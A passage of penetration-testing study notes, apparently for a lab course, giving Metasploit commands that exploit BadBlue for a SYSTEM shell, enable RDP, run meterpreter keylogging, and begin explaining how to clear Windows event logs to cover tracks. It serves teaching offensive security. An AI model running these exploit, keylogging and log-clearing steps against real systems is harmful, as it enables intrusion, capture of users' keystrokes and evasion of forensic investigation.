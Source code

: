 ```bash
kali@kali> service postgresql start && msfconsole
msf6> workspace -a rdp
msf6> setg rhosts 10.3.22.192
msf6> db_nmap -sV 10.3.22.192

msf6> use exploit/windows/http/badblue_passthru
msf6> set target BadBlue\ EE\ 2.7\ Universal
msf6> run

meterpreter> getuid  # NT AUTHORITY\SYSTEM
# CTRL+Z

msf6> use post/windows/manage/enable_rdp
msf6> set session 1
msf6> run  # Enable RDP

msf6> db_nmap 10.3.22.192 -p 3389  # RDP is now open
```

#### Windows keylogging

* Keylogging is the process of recording or capturing the keystrokes entered on a target system.
* This technique is not limited to post exploitation, there are plenty of programs and USB devices that can be used to capture and transmit the keystrokes entered on a system.
* Meterpreter on a Windows system provides us with the ability to capture the keystrokes entered on a target system and download them back to our local system.

```bash
kali@kali> service postgresql start && msfconsole

msf6> workspace -a keylogging
msf6> setg rhosts 10.3.20.112
msf6> use exploit/windows/http/badblue_passthru
msf6> set target 1
msf6> run

meterpreter> keyscan_start  # start keylogging
meterpreter> keyscan_dump   # display characters
meterpreter> keyscan_stop   # stop keylogging
```

#### Clear Windows event logs

* The Windows OS stores and catalogs all actions/events performed on the system and stores them in the Windows Event Log.
* Event logs are categorized based on the type of events they store :
  * Application logs : stores application/program events like startups, crashes etc.
  * System logs : stores system events like startups, reboots etc.
  * Security logs : stores security events like password changes, authentication failures etc.
* Event logs can be accessed via the Event Viewer on Windows.
* The event logs are the first stop for any forensic investigator after a compromise has been detected. It is therefore very important to clear your tracks after you are done with your assessment.
